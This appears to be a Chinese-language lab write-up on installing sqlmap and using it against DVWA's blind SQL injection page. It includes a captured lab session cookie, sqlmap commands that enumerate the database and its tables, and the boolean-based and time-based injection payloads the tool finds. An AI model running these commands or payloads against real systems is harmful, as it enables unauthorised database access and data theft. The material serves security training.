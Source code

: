 

+ 安装`sqlmap`：

这里我使用`zip`进行安装（`git`不大行），所以就直接输入`http:////github.com/sqlmapproject/`进行下载，`unzip`解压，`mv`命令重命名

```sh
$ root@VM:/opt# unzip sqlmap-master.zip
$ root@VM:/opt# mv sqlmap-master sqlmap
$ root@VM:/opt# cd sqlmap/
$ root@VM:/opt/sqlmap# ./sqlmap.py -h
```

![image-20240517160637292](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171606432.png)

之后配置`python2`环境：

```sh
$ sudo apt-get update
$ apt install python2
$ sudo apt-get update
$ pip install --upgrade pip
$ python2 sqlmap.py -hh
```

安装完成后，就运行`python`运行程序：

![image-20240517160956094](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171609209.png)

使用`BurpSuit`进行`cookie`抓取：`cookie: PHPSESSID=pbhpblqt95rv4ghv88dmeljh7c; security=low`



+ 开始盲注：

执行命令：`python2 sqlmap.py -u "http://dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=pbhpblqt95rv4ghv88dmeljh7c; security=low" --batch`得到结果：

```sh
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 7506=7506 AND 'ATYf'='ATYf&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9549 FROM (SELECT(SLEEP(5)))jhWv) AND 'mFEe'='mFEe&Submit=Submit
---
```

可执行：`python2 sqlmap.py -u "http://dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=pbhpblqt95rv4ghv88dmeljh7c; security=low" --batch --technique=B --current-db`得到当前数据库名称：

![image-20240517165212488](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171652617.png)

查询数据库下的表：`python2 sqlmap.py -u "http://dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=pbhpblqt95rv4ghv88dmeljh7c; security=low" --batch --technique=B --current-db -D dvwa --tables`
